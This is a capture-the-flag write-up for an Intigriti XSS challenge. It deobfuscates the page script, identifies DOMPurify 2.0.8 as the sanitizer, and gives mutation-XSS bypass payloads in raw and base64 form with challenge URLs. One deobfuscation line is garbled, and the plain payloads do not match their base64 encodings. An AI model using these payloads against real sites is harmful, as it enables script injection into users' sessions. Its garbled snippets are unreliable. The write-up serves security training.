

## Write-up

Inspecting the [source](https://challenge-0921.intigriti.io/challenge/manager.js), we are greeted with an obfuscated source code. We tried a few deobfuscator but found that this tool works best: [https://deobfuscate.io/](https://deobfuscate.io/).

> The de-obfuscated code might have some syntax errors. (some `/` needs to be escaped `\/`)

Notice that `var _0x5195` is used to store de-obfuscated hardcoded strings in the source. We can then use this variable `_0x5195` to replace back the hardcoded strings in the source.

Run the following code in the console on the challenge site to deobfuscate and restore the hardcoded strings:
```js
obf = `SOURCE_CODE` // Replace with the actual source code, using backticks to support multi-line
_0x5195 is a for (i = 0; i < _0x5195.length; i++) {
    obf = obf.replaceAll(`_0x5195[${i}]`, `'${_0x5195[i]}'`)
}
console.log(obf);
```

We can now "better" analyse the code.

The code for handling the button click when clicking the "add" button is:
```js
if (document['querySelector']('#new-password input')['value']['length'] == 0) {
    var k = {};
    k[g3(121, 130)] = 'Uh, oh!';
    k[g3(183, 408)] = 'Please, provide a password';
    k[g3(-257, -151)] = 'error';
    k[g3(-293, 115)] = 'Keep hunting';
    swal(k);
    } else {
    if (window['location']['href']['indexOf']('?password=') > 0) {
        var l = i('password')['replaceAll'](' ', '+');
        if (e(l) === true) {
        var m = atob(l);
        } else {
        var m = 'amsterdam_coffeeshops';
        console['log']('try harder');
        }
        ;
        document['querySelector']('#passwords')['innerHTML'] += "" + '<div class="password"><span id="passwordsaved">' + AntIH4Ck3RC0D3zzzzzzzzz[g3(-475, -447)](m) + '</span><button class="delete"><i class="fa fa-trash-o"></i></button></div>';
        var n = document['querySelectorAll']('.delete');
        for (var o = 0; o < n['length']; o++) {
        n[o]['onclick'] = function () {
            this['parentNode']['remove']();
        };
        }
```

A `password` HTTP parameter is expected and the variable `m` will then store the base64-decoded value of it.

Also, the line with the `ANTIHACKERCODE` is actually:
```js
function g3(c, d) {
    return fp(d, c - -19); // fp() then calls b() which gives and returns the decoded string "MCAST_MSFILTER"
}
```

So the actual function is `AntIH4Ck3RC0D3zzzzzzzzz["MCAST_MSFILTER"](m)` where `m` is passed in as an argument. It then strips certain event hooks such as `onerror`, `onload`, as well as `<script>` tags from the input.

We can test it via the console:
```js
> AntIH4Ck3RC0D3zzzzzzzzz["MCAST_MSFILTER"]("")
< ""

> AntIH4Ck3RC0D3zzzzzzzzz["MCAST_MSFILTER"]("<script>img src=x onerror=alert(1)>")
< ""
```

Examining the function definition of `AntIH4Ck3RC0D3zzzzzzzzz["MCAST_MSFILTER"]`:
```js
function (bl, bm) {
    if (fR(-120, 147) === fR(-120, 249)) {
        if (bl || (bl = '<!-->'), 'string' != typeof bl && !bc(bl)) {
// ...

// Tracing function bc()
bc = function (bk) {
        //...
        return 'object' === (void 0 === af ? 'undefined' : a4(af)) ? bk instanceof af : bk && 'object' === (void 0 === bk ? 'undefined' : a4(bk)) && 'number' == typeof bk['nodeType'] && 'string' == typeof bk['nodeName'];
    }
```

> We know that `fR()`, `fz()` are simply replacing hard-coded strings by calling the `b()` function, so we will ignore them for now.

We see that `af` is defined as:
```js
af = a7['Node'];
```    

and `a7` as:
```js
var a7 = arguments['length'] > 0 && void 0 !== arguments[0] ? arguments[0] : a5(), a8 = function (bi) {
    function fA(c, d) {
        return fz(d - 1072, c);
    }
    if (fA(1212, 1142) === fA(1291, 1035)) {
        var bk = {};
        bk[fA(1363, 1097)] = q;
        n(o[p[17]], bk);
        try {
        y[z[115]][A[114]](B);
        } catch (bl) {
        F[G[116]] = H;
        }
    } else {
        return q(bi);
    }
    };
    if (a8['version'] = '2.0.8', a8['removed'] = [], !a7 || !a7['document'] || 9 !== a7['document']['nodeType']) {
// ...
```

At this point, we realize that a version string has been revealed. Let's consolidate our findings thus far. It appears that our input to the `AntIH4Ck3RC0D3zzzzzzzzz["MCAST_MSFILTER"]()` function is heavily sanitized which could mean that an external library is in place. Finding a version string further confirms this idea.

Could it be DOMPurify? 🤔

Searching for `DOMPurify 2.0.8` reveals that it is vulnerable to mutation XSS (mXSS) and we find 2 PoCs for this version:
1. [Mutation XSS when converting from SVG namespace](https://github.com/cure53/DOMPurify/issues/482)
2. [Mutation XSS via namespace confusion – DOMPurify < 2.0.17 bypass (CVE-2020-26870)](https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/)

Let's test out both of them:

1. Base-64 encode the payload:
    - `<form><math><mtext></form><form><mglyph><svg><mtext><style><path id="</style>">`=> `PGZvcm0+PG1hdGg+PG10ZXh0PjwvZm9ybT48Zm9ybT48bWdseXBoPjxzdmc+PG10ZXh0PjxzdHlsZT48cGF0aCBpZD0iPC9zdHlsZT48aW1nIG9uZXJyb3I9YWxlcnQoMSkgc3JjPiI+`

Running it on the challenge page: [https://challenge-0921.intigriti.io/challenge/manager.html?password=PGZvcm0+PG1hdGg+PG10ZXh0PjwvZm9ybT48Zm9ybT48bWdseXBoPjxzdmc+PG10ZXh0PjxzdHlsZT48cGF0aCBpZD0iPC9zdHlsZT48aW1nIG9uZXJyb3I9YWxlcnQoMSkgc3JjPiI+](https://challenge-0921.intigriti.io/challenge/manager.html?password=PGZvcm0+PG1hdGg+PG10ZXh0PjwvZm9ybT48Zm9ybT48bWdseXBoPjxzdmc+PG10ZXh0PjxzdHlsZT48cGF0aCBpZD0iPC9zdHlsZT48aW1nIG9uZXJyb3I9YWxlcnQoMSkgc3JjPiI+)

Enter something in the input field and press "Add". The payload doesn't work.

2. Base-64 encode the payload:
    - `<form><math><mtext></form><form><mglyph><style></math>` => `PGZvcm0+PG1hdGg+PG10ZXh0PjwvZm9ybT48Zm9ybT48bWdseXBoPjxzdHlsZT48L21hdGg+PGltZyBzcmMgb25lcnJvcj1hbGVydChkb2N1bWVudC5kb21haW4pPg==`

Running it on the challenge page: [https://challenge-0921.intigriti.io/challenge/manager.html?password=PGZvcm0+PG1hdGg+PG10ZXh0PjwvZm9ybT48Zm9ybT48bWdseXBoPjxzdHlsZT48L21hdGg+PGltZyBzcmMgb25lcnJvcj1hbGVydChkb2N1bWVudC5kb21haW4pPg==](https://challenge-0921.intigriti.io/challenge/manager.html?password=PGZvcm0+PG1hdGg+PG10ZXh0PjwvZm9ybT48Zm9ybT48bWdseXBoPjxzdHlsZT48L21hdGg+PGltZyBzcmMgb25lcnJvcj1hbGVydChkb2N1bWVudC5kb21haW4pPg==)

Enter something in the input field and press "Add", this triggers the mXSS:



## Further Reading
1. [https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss](https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss)
2. [https://cure53.de/fp170.pdf](https://cure53.de/fp170.pdf)
3. [https://securityboulevard.com/2020/07/mutation-cross-site-scripting-mxss-vulnerabilities-discovered-in-mozilla-bleach/](https://securityboulevard.com/2020/07/mutation-cross-site-scripting-mxss-vulnerabilities-discovered-in-mozilla-bleach/)
